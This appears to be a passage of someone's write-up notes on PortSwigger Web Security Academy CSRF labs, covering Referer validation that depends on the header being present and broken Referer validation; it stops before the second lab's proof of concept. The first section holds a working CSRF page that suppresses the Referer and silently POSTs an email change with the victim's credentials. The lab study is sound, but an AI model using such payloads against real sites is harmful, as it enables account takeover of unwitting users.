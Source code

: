 ```html

```


## Lab: CSRF where Referer validation depends on header being present

This one was also pretty simple. They title kinda gives it away but essentially they are using referrer header to check if the request is cross domain and the fallback here is that if the referrer header is missing, they don't do the check at all. So we can make sure that the referrer header is not present from our exploit server when making the cross domain request. 

```html

<html>

<head>
<meta name="referrer" content="no-referrer">
</head>

<body>

<script>

var xhr = new XMLHttpRequest();
xhr.open("POST", "https://ac2e1f921f4807fdc096bf7d00c4005f.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=tsdfsdfsdf%40test.com");

</script>

</body>

</html>

```

## Lab: CSRF with broken Referer validation

In this one, we have to be careful with what gets sent with the referer header and what doesn't. We need to spoof the original domain somehow in the referer domain. There are multiple ways to do this. 
1. use fragments?
2. add as subdomain?
3. add as a query param

the first one doesn't work as referer header doesn't send any fragments (probably due to privacy reasons). The second one can be accomplished but we need control over the domain which we don't have in these labs. The third one works provided we add the meta tag for referrer to be equal to "unsafe-url". Once we do that, the POC would be:
